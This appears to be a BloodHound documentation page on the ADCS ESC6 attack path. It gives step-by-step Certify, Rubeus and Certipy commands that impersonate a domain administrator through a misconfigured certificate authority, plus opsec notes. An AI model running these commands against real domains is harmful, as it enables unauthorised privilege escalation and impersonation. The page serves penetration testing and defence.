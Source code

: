 ```yaml
---
title: ADCSESC6a
description: The principal has permission to enroll on one or more certificate templates allowing for authentication.
---
```


<img noZoom src="/assets/enterprise-AND-community-edition-pill-tag.svg" alt="Applies to BloodHound Enterprise and CE"/>


They also have enrollment permission for an enterprise CA with the necessary templates published. This
enterprise CA is trusted for NT authentication in the forest, and chains up to a root CA for the forest.
The enterprise CA is configured with the EDITF_ATTRIBUTESUBJECTALTNAME2 flag allowing enrollees to
specify a Subject Alternate Name (SAN) identifying another principal during certificate enrollment of
any published certificate template. This setup allow an attacker principal to obtain a malicious
certificate as any AD forest user or computer and use it for authentication and impersonation without
knowing their credentials.

## Abuse Info

### Windows

Step 1: Use Certify to request enrollment in the affected template, specifying the affected
certification authority and target principal to impersonate:

```bash
.\Certify.exe request /ca:rootdomaindc.forestroot.com\forestroot-RootDomainDC-CA /template:ESC6 /altname:ForestRootDA /url:"tag:microsoft.com,2022-09-14:sid:S-1-5-21-2697957641-2271029196-387917394-500"
```

If the enrollment fails with an error message stating that the Email or DNS name is unavailable and cannot be added to the Subject or Subject Alternate name, then it is because the enrollee principal does not have their 'mail' or 'dNSHostName' attribute set, which is required by the certificate template. The 'mail' attribute can be set on both user and computer objects but the 'dNSHostName' attribute can only be set on computer objects. Computers have validated write permission to their own 'dNSHostName' attribute by default, but neither users nor computers can write to their own 'mail' attribute by default.

Step 2: Convert the emitted certificate to PFX format:

```bash
certutil.exe -MergePFX .\cert.pem .\cert.pfx
```

Step 3: Use Rubeus to request a ticket granting ticket (TGT) from the domain, specifying the
target identity to impersonate and the PFX-formatted certificate created in Step 2:

```bash
.\Rubeus.exe asktgt /certificate:cert.pfx /user:forestrootda /domain:forestroot.com /ptt
```
Step 4: Optionally verify the TGT by listing it with the klist command:

```bash
klist
```

### Linux

Step 1: Use Certipy to request enrollment in the affected template, specifying the affected
certification authority and target principal to impersonate:

```bash
'certipy req -u john@corp.local -p Passw0rd -ca corp-DC-CA -target ca.corp.local -template ESC6 -upn administrator@corp.local
```

If the enrollment fails with an error message stating that the Email or DNS name is unavailable and cannot be added to the Subject or Subject Alternate name, then it is because the enrollee principal does not have their 'mail' or 'dNSHostName' attribute set, which is required by the certificate template. The 'mail' attribute can be set on both user and computer objects but the 'dNSHostName' attribute can only be set on computer objects. Computers have validated write permission to their own 'dNSHostName' attribute by default, but neither users nor computers can write to their own 'mail' attribute by default.

Step 2: Request a ticket granting ticket (TGT) from the domain, specifying the certificate created in Step 1 and the IP of a domain controller::

```bash
 certipy auth -pfx administrator.pfx -dc-ip 172.16.126.128
```

If the authentication fails then it may be because the DC enforces strong certificate mapping. This
requirement can be met by including a URL parameter in the SAN with the target's SID, however not
supported by Certipy. See the Windows abuse section for example.

## Opsec Considerations

When the affected certificate authority issues the certificate to the attacker, it will retain a local copy
of that certificate in its issued certificates store. Defenders may analyze those issued certificates to
identify illegitimately issued certificates and identify the principal that requested the certificate, as
well as the target identity the attacker is attempting to impersonate.

## References

This edge is related to the following MITRE ATT&CK tactic and techniques:

* [https://attack.mitre.org/techniques/T1649/](https://attack.mitre.org/techniques/T1649/)

### Abuse and Opsec references

* Certipy 4.0
* [https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf)
* Domain Escalation Edit Attributes
* [https://techcommunity.microsoft.com/t5/ask-the-directory-services-team/preview-of-san-uri-for-certificate-strong-mapping-for-kb5014754/ba-p/3789785](https://techcommunity.microsoft.com/t5/ask-the-directory-services-team/preview-of-san-uri-for-certificate-strong-mapping-for-kb5014754/ba-p/3789785)
